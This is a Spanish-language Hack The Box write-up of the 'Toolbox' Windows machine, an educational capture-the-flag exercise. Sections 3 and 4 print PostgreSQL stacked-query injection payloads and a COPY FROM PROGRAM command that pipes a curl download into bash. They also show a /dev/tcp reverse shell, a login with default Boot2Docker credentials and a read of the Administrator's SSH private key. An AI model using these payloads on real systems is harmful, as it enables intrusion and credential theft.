# Toolbox — Hack The Box

**Plataforma:** Hack The Box  
**Dificultad:** 🟢 Fácil  
**SO:** Windows  
**Autor de la máquina:** artikrh  
**Fecha de resolución:** 2026  
**Técnicas:** Nmap · Virtual host `admin.megalogistic.com` · **PostgreSQL SQL Injection** (stacked queries) · RCE vía `COPY ... FROM PROGRAM` · Reverse shell · Pivot a Boot2Docker (credenciales por defecto `docker:tcuser`) · Carpeta compartida `/c` de Docker Toolbox · Robo de clave privada SSH de Administrator → Administrator

---

## Índice

1. [Reconocimiento](#1-reconocimiento)
2. [Enumeración del servicio web](#2-enumeración-del-servicio-web)
3. [Acceso inicial — PostgreSQL SQL Injection](#3-acceso-inicial--postgresql-sql-injection)
4. [Obtención de shell](#4-obtención-de-shell)
5. [Post-explotación y flags](#5-post-explotación-y-flags)
6. [Lección aprendida](#6-lección-aprendida)

---

## 1. Reconocimiento

Comenzamos comprobando conectividad con la máquina objetivo mediante ICMP.

```bash
ping -c 1 10.129.29.169
```



Salida obtenida:

```text
64 bytes from 10.129.29.169: icmp_seq=1 ttl=127 time=33.8 ms
```

> 💡 El parámetro `-c 1` envía un único paquete ICMP, suficiente para confirmar que el host está activo. El valor `TTL=127` indica que estamos frente a una máquina **Windows** (los sistemas Windows inician el TTL en 128).

---

### Escaneo inicial de puertos

Realizamos un escaneo completo de todos los puertos TCP con Nmap.

```bash
nmap -sS -Pn -vvv --min-rate 5000 --open -n -p- 10.129.29.169 -oN AllPorts
```



### Explicación de parámetros utilizados

| Parámetro | Función |
|---|---|
| `-sS` | SYN Scan rápido y sigiloso |
| `-Pn` | Omite descubrimiento por ping |
| `-vvv` | Máximo nivel de verbosidad |
| `--min-rate 5000` | Fuerza velocidad mínima de paquetes |
| `--open` | Muestra solo puertos abiertos |
| `-n` | Evita resolución DNS |
| `-p-` | Escanea los 65535 puertos TCP |
| `-oN` | Guarda el resultado en formato normal |

Resultado relevante:

```text
21/tcp    open  ftp
22/tcp    open  ssh
135/tcp   open  msrpc
139/tcp   open  netbios-ssn
443/tcp   open  https
445/tcp   open  microsoft-ds
5985/tcp  open  wsman
47001/tcp open  winrm
```

> 💡 La superficie es propia de un **Windows Server** con SMB, WinRM y una FTP/SSH añadidos manualmente. El puerto `443` sin un `80` equivalente y la combinación con FTP/SSH sugiere que el vector principal está en el servicio web HTTPS, más que en SMB directamente.

---

### Enumeración detallada

Una vez identificados los puertos abiertos, lanzamos un escaneo más profundo con detección de versiones y scripts NSE.

```bash
nmap -sCV -T5 -n -p21,22,135,139,443,445,5985,47001,49664,49665,49666,49667,49668,49669 10.129.29.169 -oN Ports
```



Salida relevante:

```text
21/tcp   open  ftp     FileZilla ftpd 0.9.60 beta
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_-r-xr-xr-x 1 ftp ftp   242520560 Feb 18  2020 docker-toolbox.exe
22/tcp   open  ssh     OpenSSH for_Windows_7.7 (protocol 2.0)
443/tcp  open  ssl/http Apache httpd 2.4.38 (Debian)
| ssl-cert: Subject: commonName=admin.megalogistic.com/organizationName=MegaLogistic Ltd
|_http-title: MegaLogistics
5985/tcp open  http    Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
47001/tcp open  http   Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
```

### Explicación de parámetros

| Parámetro | Función |
|---|---|
| `-sCV` | Ejecuta detección de versiones y scripts NSE |
| `-T5` | Timing agresivo para acelerar el escaneo |

> 💡 Dos detalles muy reveladores en esta salida. Primero, el certificado SSL del puerto 443 expone el nombre real de la aplicación: **`admin.megalogistic.com`**. Segundo, el propio `443` responde como **Apache 2.4.38 (Debian)** aunque el host es Windows — es decir, ese servicio web no corre nativo en el sistema operativo, sino dentro de un **contenedor Linux** cuyo puerto se ha publicado hacia el host Windows.

---

### FTP anónimo: la pista del nombre de la máquina

El acceso FTP anónimo está permitido y expone un único fichero en la raíz:

```bash
ftp 10.129.29.169
```



```text
-r-xr-xr-x 1 ftp ftp   242520560 Feb 18  2020 docker-toolbox.exe
```

Vemos un instalador de **Docker Toolbox**, lo que ya nos anticipa el terreno: probablemente nos encontraremos con contenedores Docker corriendo sobre este host Windows a través de Docker Toolbox (la solución de Docker para Windows/Mac sin Hyper-V, basada en VirtualBox + Boot2Docker).

---

## 2. Enumeración del servicio web

El certificado SSL nos dio un dominio real: `admin.megalogistic.com`. Lo añadimos a `/etc/hosts` para que las peticiones lleguen al vhost correcto.

```bash
echo "10.129.29.169 admin.megalogistic.com" | sudo tee -a /etc/hosts
```



Antes de eso, inspeccionamos el certificado directamente con `openssl` para confirmar el `commonName` exacto:

```bash
openssl s_client -connect 10.129.29.169:443
```



```text
subject=C=GR, ST=Some-State, O=MegaLogistic Ltd, OU=Web, CN=admin.megalogistic.com, emailAddress=admin@megalogistic.com
```

> 💡 Un certificado autofirmado y caducado con el `CN` real de la aplicación es una fuente de información habitual en máquinas de HTB — mucho más fiable que confiar en que el `Host` por defecto muestre algo útil.

Accedemos a `https://admin.megalogistic.com/`:



La página muestra un panel de login "MegaLogistics" y, en la parte superior, un **error de PHP no controlado**:

```text
to connect to PostgreSQL server: could not connect to server: Connection refused
Is the server running on host "localhost" (127.0.0.1) and accepting TCP/IP connections on port 5432?
in /var/www/admin/config_psql.php on line 4
```

> 💡 Este error, aunque intermitente, es oro puro para el atacante: revela que el backend es **PostgreSQL** (no MySQL, que es lo que se asumiría por defecto) y la ruta física del fichero de configuración (`/var/www/admin/config_psql.php`). Con esto ya sabemos exactamente qué motor de inyección SQL vamos a tener que usar.

---

## 3. Acceso inicial — PostgreSQL SQL Injection

### Confirmando la inyección

Capturamos el formulario de login con **Burp Suite** y probamos una comilla simple en el campo `username`:

```http
POST / HTTP/1.1
Host: admin.megalogistic.com
...
username='&password=
```



Respuesta:

```text
Warning: pg_query(): Query failed: ERROR: syntax error at or near "&quot;" 
LINE 1: ...T * FROM users WHERE username = '' AND password = md5('');
```

El mensaje de error nos regala la query completa: `SELECT * FROM users WHERE username = '<input>' AND password = md5('<input>')`. El campo `username` se concatena sin escapar, así que es directamente inyectable.

> 💡 Que PostgreSQL devuelva el error de sintaxis completo (en vez de un genérico "500 Internal Server Error") es un fallo de configuración típico de entornos de desarrollo — y aquí nos ahorra tener que adivinar la estructura de la query a ciegas.

### Confirmación con time-based e investigación en PayloadsAllTheThings

Para no depender de mensajes de error, confirmamos la inyección con una técnica **time-based** — si el payload provoca un retraso medible en la respuesta, la inyección es real independientemente de lo que se muestre en pantalla:



Consultamos la sección de PostgreSQL Injection de [PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/PostgreSQL%20Injection.md#postgresql-time-based) para el payload exacto de stacked queries:

```http
username=';select * from pg_sleep(10);-- -&password=
```



La respuesta tarda ~10 segundos en llegar, confirmando que PostgreSQL soporta **consultas apiladas** (stacked queries) desde este punto de inyección — no solo `SELECT`, sino cualquier sentencia SQL adicional separada por `;`.

### De SQLi a RCE con `COPY ... FROM PROGRAM`

Consultamos también la sección de [file write de PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/PostgreSQL%20Injection.md#postgresql-file-write), que documenta que PostgreSQL permite ejecutar comandos del sistema operativo directamente desde SQL mediante `COPY ... FROM PROGRAM '<comando>'` — **siempre que el rol conectado tenga privilegios de superusuario**, algo que no es raro en despliegues de desarrollo donde la app se conecta como `postgres`.

Primero creamos una tabla auxiliar donde `COPY` pueda volcar la salida del comando:

```http
username=';CREATE TABLE shell(output text);-- -&password=
```



Y a continuación probamos la ejecución de comandos apuntando un `curl` hacia nuestra máquina, con un listener HTTP local para confirmarlo:

```http
username=';COPY shell FROM PROGRAM 'curl http://10.10.14.200:80';-- -&password=
```



```bash
python3 -m http.server 80
```



```text
10.129.29.169 - - [09/Jul/2026 17:58:09] "GET /test HTTP/1.1" 200 -
```

✅ RCE confirmada: el servidor PostgreSQL ejecuta comandos del sistema operativo como superusuario.

> 💡 `COPY ... FROM PROGRAM` es la primitiva de RCE más directa en PostgreSQL para un rol con privilegios de superusuario — no necesita extensiones adicionales como `plpgsql` ni funciones personalizadas, basta con una única sentencia SQL apilada tras la inyección.

---

## 4. Obtención de shell

### Reverse shell vía `COPY FROM PROGRAM`

Preparamos un script de reverse shell servido desde nuestro propio servidor HTTP:

```bash
# Fichero: test
#!/bin/bash
bash -i >& /dev/tcp/10.10.14.200/443 0>&1
```



Ponemos un listener a la escucha y lanzamos el payload final, que descarga el script y lo canaliza directamente a `bash`:

```bash
nc -lvnp 443
```

```http
username=';COPY shell FROM PROGRAM 'curl http://10.10.14.200:80/test|bash';-- -&password=
```



Recibimos la conexión:



```text
connect to [10.10.14.200] from (UNKNOWN) [10.129.29.169] 49814
postgres@bc56e3cc55e9:/var/lib/postgresql/11/main$
```

✅ Shell interactiva como **`postgres`**, dentro de un contenedor cuyo hostname (`bc56e3cc55e9`) tiene el formato típico de un **container ID de Docker**.

> 💡 El propio hostname delata que no estamos en el sistema operativo base de la máquina, sino dentro de un contenedor Linux — coherente con el `docker-toolbox.exe` que vimos por FTP y con que el 443 respondiera como "Apache (Debian)" en un host Windows.

---

### Escalada de privilegios — pivot a Boot2Docker y robo de clave de Administrator

Comprobamos la tabla de rutas dentro del contenedor:

```bash
route -n
```



```text
Destination   Gateway      Genmask       Iface
0.0.0.0       172.17.0.1   0.0.0.0       eth0
172.17.0.0    0.0.0.0      255.255.0.0   eth0
```

La puerta de enlace `172.17.0.1` es la IP típica del **host de Docker** visto desde dentro de un contenedor (el bridge `docker0`). En este caso, ese host no es el Windows directamente, sino la **VM Boot2Docker** que gestiona Docker Toolbox.

Docker Toolbox se apoya en una distribución minimalista (**Boot2Docker**, basada en TinyCore Linux) con credenciales por defecto ampliamente documentadas:



```text
user: docker
pwd:  tcuser
```

Probamos esas credenciales contra la IP de la puerta de enlace:

```bash
ssh docker@172.17.0.1
```



```text
docker@172.17.0.1's password: tcuser
Core is distributed with ABSOLUTELY NO WARRANTY.
docker@box:~$
```

✅ Acceso a la VM Boot2Docker (`box`) que sostiene los contenedores Docker Toolbox.

> 💡 Docker Toolbox for Windows es una tecnología heredada (sustituida por Docker Desktop con WSL2/Hyper-V) pero sigue apareciendo en entornos legacy. Sus credenciales por defecto `docker:tcuser` son públicas y documentadas oficialmente — si el administrador no las cambia, cualquiera que alcance la red interna del daemon Docker obtiene una VM completa gratis.

Explorando la raíz de esta VM encontramos algo inusual para un sistema Linux: una carpeta `/c`.

```bash
ls -la /
```



```bash
cd /c/Users && ls
```



```text
Administrator  Default  Public  desktop.ini
All Users      Default User  Tony
```

`/c` es la carpeta compartida que **Docker Toolbox monta automáticamente vía VirtualBox Guest Additions**, exponiendo el disco `C:\` completo del host Windows dentro de la VM Boot2Docker — incluyendo los perfiles de **todos los usuarios de Windows**, como si la VM y el host fueran un único entorno de confianza sin separación de permisos real.

Dentro del perfil de `Administrator` hay una carpeta `.ssh`:

```bash
cd /c/Users/Administrator && ls -la
```



```bash
cd .ssh && cat id_rsa
```



✅ La clave privada SSH del usuario **Administrator de Windows** queda expuesta en texto plano, legible por el usuario `docker` de la VM Boot2Docker sin ningún control de acceso adicional.

